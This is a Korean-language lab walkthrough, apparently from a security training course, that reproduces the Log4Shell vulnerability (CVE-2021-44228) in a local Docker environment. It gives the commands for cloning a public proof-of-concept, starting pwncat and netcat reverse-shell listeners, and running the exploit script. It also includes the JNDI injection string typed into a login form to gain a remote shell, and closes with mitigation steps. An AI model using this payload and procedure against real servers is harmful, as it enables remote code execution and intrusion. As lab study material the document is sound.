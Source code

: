 # Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

> 화이트햇 스쿨 3기 (12반) - [@이태용](https://github.com/GunP4ng)

[영어 버전(English version)](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228)

[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)

Apache Log4j 2는 Log4j의 업그레이드로, 이전 버전인 Log4j 1.x에 비해 상당한 개선을 제공하며, Logback 아키텍처의 몇 가지 고유한 문제를 해결하면서 Logback에서 사용할 수 있는 많은 개선 사항을 제공합니다.

2021년 12월, Apache Log4j2에서 0-day Exploit 이 발견되었습니다. Log4j의 JNDI 지원은 해결할 수 있는 이름을 제한하지 않습니다. 일부 프로토콜은 다음과 같습니다 `rmi:` 와 `ldap:` 안전하지 않거나 원격 코드 실행을 허용할 수 있습니다.

**참고 자료 (References):**

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649
- https://github.com/kozmer/log4j-shell-poc?tab=readme-ov-file
- [https://velog.io/@isang/CVE-2021-44228log4shell-취약점-POC-실습](https://velog.io/@isang CVE-2021-44228log4shell-%EC%B7%A8%EC%95%BD%EC%A0%90-POC-%EC%8B%A4%EC%8A%B5)
- https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228


## 환경 설정 (Environment Setup) - Attacker

### 1. PoC 코드

git clone으로 PoC 코드를 설치합니다

```bash
git clone https://github.com/kozmer/log4j-shell-poc
```

python 라이브러리를 설치합니다

```bash
pip install -r requirements.txt
```

### 2. Jdk 설치

https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html
Linux x64
jdk-8u202

> jdk 설치하지 않을 시 PoC 코드가 동작하지 않습니다

tar 명령어로 압축 해제합니다

```bash
tar -zxvf jdk-8u202-linux-x64.tar.gz
```

jdk1.8.0_202 폴더를 /log4j-shell-poc폴더로 이동합니다

```bash
sudo mv jdk1.8.0_202/ log4j-shell-poc/
```

jdk1.8.0_202 폴더의 이름을 jdk1.8.0_20으로 수정합니다

```bash
mv jdk1.8.0_202/ jdk1.8.0_20
```

![](./README.assets/1.png)

### 3. pwncat 설치

[pwncat](https://github.com/calebstewart/pwncat)은 reverse shell handler 입니다

```bash
#pip 업그레이드
pip3 install --upgrade pip

#pwncat 설치
pip3 install pwncat-cs
```

- pwncat은 python3.9 이상 필요 (ERROR: No matching distribution found for pwncat-cs)

아래의 명령을 통해 pwncat 을 실행할 수 있습니다

```bash
python3 -m pwncat -lp 9001 -m linux
```

Exploit을 성공하기 전까지 아래의 상태를 유지합니다

![](./README.assets/2.png)


## 환경설정 (Environment Setup) - Victim

### 1. Docker setup

log4j-shell-poc 폴더로 이동한 뒤 아래의 명령어를 입력합니다

```bash
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc
```

8080 포트로 웹 서비스가 시작됩니다

![](./README.assets/3.png)


## Exploit

### 1. Attacker : netcat 시작

아래 명령어로 reverse shell 접속용 netcat 을 시작합니다

```bash
nc -lvnp 9001
```

![](./README.assets/4.png)

### 2. Attacker : pwncat 실행

```bash
python3 -m pwncat -lp 9001 -m linux
```

![](./README.assets/5.png)

### 3. Attacker : Exploit(poc.py)

```bash
python3 poc.py --userip localhost --webport 8001 --lport 9001
# 8001 포트 : 웹접속 
# 9001 포트 : 리버스 쉘 접속용
```

![](./README.assets/6.png)

### 4. Victim : Web

아래 명령어로 취약한 웹서버를 실행시킬 수 있습니다

```bash
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc
```

8080포트로  시작됩니다.

![](./README.assets/7.png)

로그인 창에 다음과 같이 입력합니다

```bash
username  : ${jndi:ldap://localhost:1389/a}
password  : hello!
```

### 5. Exploit

Exploit(poc.py) 창에 다음과 같은 메시지가 뜨게 됩니다

![](./README.assets/8.png)

pwncat 창에 다음과 같이 뜨게 됩니다

![](./README.assets/9.png)

back을 입력하면 remote로 서버에 접속할 수 있습니다

![](./README.assets/10.png)

서버의 파일에 접근이 가능한 것을 볼 수 있습니다


> 대응 방법

- Log4j를 2.15.0 이상으로 업데이트하여 대응할 수 있습니다
- **Log4j 2.15.0** 이전 버전에서도 **JNDI Lookup**을 비활성화하여 취약점을 완화할 수 있습니다.